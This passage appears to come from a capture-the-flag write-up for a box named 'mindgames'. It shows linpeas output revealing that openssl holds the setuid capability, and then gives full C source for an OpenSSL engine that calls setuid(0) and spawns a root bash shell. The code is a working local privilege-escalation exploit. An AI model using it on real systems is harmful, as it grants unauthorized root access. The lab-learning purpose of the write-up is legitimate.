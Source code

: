 ## Capabilities

Running `linpeas.sh` on the server will reveal that openssl has the `cap_setuid+ep` capabilities that we may exploit.

~~~
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
~~~

Check on [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/#library-load) what we can exploit from `openssl` reveals an interesting section (Library load). It loads shared libraries that may be used to run code in the binary execution context.

Searching for examples on the Internet led me to this page (https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/) where I've found a C code example. Below is my adapted version that will spawn a root shell:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <openssl/engine.h>

static const char *engine_id = "root shell";
static const char *engine_name = "Spawns a root shell";

static int bind(ENGINE *e, const char *id)
{
    int ret = 0;

    if (!ENGINE_set_id(e, engine_id)) {
        fprintf(stderr, "ENGINE_set_id failed\n");
        goto end;
    }
    
    if (!ENGINE_set_name(e, engine_name)) {
        printf("ENGINE_set_name failed\n");
        goto end;
    }

    setuid(0);
    setgid(0);
    system("/bin/bash");
    
    ret = 1;
    
    end:
    return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
